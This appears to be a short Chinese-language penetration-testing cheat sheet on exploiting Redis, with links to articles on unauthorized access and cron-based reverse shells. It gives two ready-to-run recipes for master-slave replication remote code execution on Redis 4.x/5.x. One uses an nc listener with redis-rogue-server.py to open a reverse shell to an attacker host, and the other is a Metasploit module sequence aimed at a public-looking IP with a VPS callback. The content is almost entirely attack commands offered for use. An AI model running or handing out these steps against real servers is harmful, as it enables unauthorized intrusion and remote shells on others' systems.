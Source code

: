 [Redis未授权访问漏洞(windows环境](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484286&idx=1&sn=6250d89d18ea635bda32e815fdcc5f6d)
[Redis未授权计划任务反弹shell](https://zhuanlan.zhihu.com/p/582582342)
[Redis的漏洞总结(建议收藏)](https://mp.weixin.qq.com/s/wfncezg7Xe4Z4VP7lMxc7Q)

# Redis主从复制RCE redis 4.X/5.X

1. by redis-rogue-server.py
```bash
nc -lvvp 6381
python3 redis-rogue-server.py --rhost 192.168.127.129  --rport 6379 --lhost 192.168.127.134 --lport 6381
# reverse shell
# What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.127.134
Reverse server port: 6381
## [i]nteractive shell 也可以
```

2. by msf
```
sudo msfconsole
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS 47.92.135.138
set SRVHOST VPS_IP
set LHOST VPS_IP
exploit
```